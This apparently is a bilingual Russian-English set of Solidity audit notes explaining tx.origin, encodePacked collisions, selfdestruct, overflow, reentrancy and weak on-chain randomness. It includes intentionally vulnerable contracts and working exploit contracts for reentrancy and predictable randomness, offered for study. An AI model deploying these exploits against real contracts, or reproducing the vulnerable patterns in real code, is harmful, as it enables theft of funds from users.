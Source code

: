 ## VULNERABLE TX.ORIGIN:  

```
// При вызове функции напрямую пользователем, msg.sender и tx.origin будут одинаковыми — это будет адрес пользователя.
contract Example {
    function checkSender() external view returns (address, address) {
        return (msg.sender, tx.origin);
    }
}

/*
В этом случае:
- msg.sender в контракте Example будет адресом контракта A.
- tx.origin в контракте Example будет адресом пользователя, который инициировал транзакцию.
*/
contract A {
    Example example;
    constructor(address _example) {
        example = Example(_example);
    }

    function callCheckSender() external view returns (address, address) {
        return example.checkSender();  // Вызов функции через другой контракт
    }
}

```

Когда пользователь вызывает контракт через другой контракт, tx.origin будет равен адресу пользователя, а msg.sender будет адресом контракта, который вызвал вашу функцию.

------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
#### VULNERABILITI IN ABI.ECNCODEPACKED():  

This function vulnerable to collision: https://docs.soliditylang.org/en/latest/abi-spec.html#non-standard-packed-mode  

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
#### VULNERABILITY IN SELFDESTRUCT():  

В смарт-контрактах функция **selfdestruct()** - это специальная функция, используемая в основном для прекращения работы контракта при определенных обстоятельствах и освобождения связанных с ним ресурсов.  

Основная цель функции **selfdestruct()** - позволить создателям контрактов уничтожить развернутый смарт-контракт.  

При срабатывании функции **selfdestruct()** смарт-контракт будет окончательно удален, а оставшиеся Ether, хранящиеся в контракте, будут отправлены на указанный целевой адрес. В то же время все данные и функции, связанные с контрактом (хранилище и код удалены из состояния), больше не будут доступны. Функция **selfdestruct()** может использоваться для отказа от контрактов, которые больше не используются, обновления версий контрактов или решения потенциальных проблем безопасности.  

Vulnerable code snippet: ```selfdestruct(payable(msg.sender));``` - после выполнения функции контракт будет уничтожен, а все срадства будут перечисленны на указанный адресс.  

Также, функция **selfdestruction()** может переводить средства без согласия цели. Именно из-за этой "принудительной передачи" функции **selfdestruction()** злоумышленники могут использовать ее, чтобы повлиять на нормальную функциональность целевого контракта. Например, если разработчики используют address(this).balance для извлечения баланса токенов в контракте, они могут быть уязвимы для атаки.

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
#### AUDIT METADATA:  

```solc --metadata [Contract.sol]```

Decode smart contract bytecode : https://playground.sourcify.dev/  

IPFS: https://gateway.pinata.cloud/ipfs/QmVQjAYYszSmEmYKWHusx8TwzF5vTYjCv8PUEJLXUfNjce

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
#### INTEGER UNDERFLOW AND OVERFLOW:  

https://metaschool.so/articles/integer-overflow-and-underflow-in-solidity  

#### REENTRANCY:  

Vulnerable Contract:  
```
// SPDX-License-Identifier: MIT
pragma solidity 0.8.26;

contract EthBank {
    mapping(address => uint256) public balances;

    function deposit() external payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() external payable {
        (bool sent, ) = msg.sender.call{value: balances[msg.sender]}("");
        require(sent, "failed to send ETH");
        balances[msg.sender] = 0; // Vulnerability here.
    }
}

```

Exploit code:  

```
// SPDX-License-Identifier: MIT
pragma solidity 0.8.26;

contract EthBankExploit {
    IEthBank public bank;

    constructor(address _bank) {
        bank = IEthBank(_bank);
    }

    receive() external payable { // 
        if (address(bank).balance >= 1 ether) {
            bank.withdraw();
        }
    }

    function pwn() external payable {
        bank.deposit{value: 1 ether}();
        bank.withdraw();
        payable(msg.sender).transfer(address(this).balance);
    }
}
```

#### INSECURE SOURCE OF RANDOMNESS:  

Vulnerable contract:  

```
contract RandomNumber {

    constructor public payable {}

    function guess(uint _guess) public {
        uint answer = uint(keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp)));
        if (_guess == answer) {
            (bool sent,) = msg.sender.call{value: 1 ether}("");
            require(sent, "Fail");
        }
    }
}
```

Attack contract:  

```
contract Attack {
    fallback() external payable {}

    function attack(RandomNumber randomNumber) {
        uint answer = uint(keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp)));
        randomNumber.guess(answer);
    }
}
```

Атакующий контракт, и уязвимый контракт работают в одном блоке, потому что вызов контракта-атакующего инициируется внешним пользователем, и все транзакции, вызванные в рамках этой операции, обрабатываются в контексте одного блока.  

**Эфир и обработка транзакций**:  

В Ethereum каждая транзакция включается в блок и выполняется в рамках его характеристик (например, blockhash, block.timestamp, block.number).
Если одна транзакция вызывает несколько контрактов (через вызовы call или delegatecall), все эти вызовы происходят в том же самом блоке, используя одну и ту же информацию о блоке.

**Контекст вызова**:  

Когда атакующий контракт вызывает уязвимый контракт через: ```randomNumber.guess(answer);```, оба контракта работают в рамках одной транзакции, обработанной майнером.
Таким образом, вызов block.timestamp и blockhash(block.number - 1) в атакующем контракте возвращает те же самые значения, что и в уязвимом контракте, потому что это одна и та же транзакция.

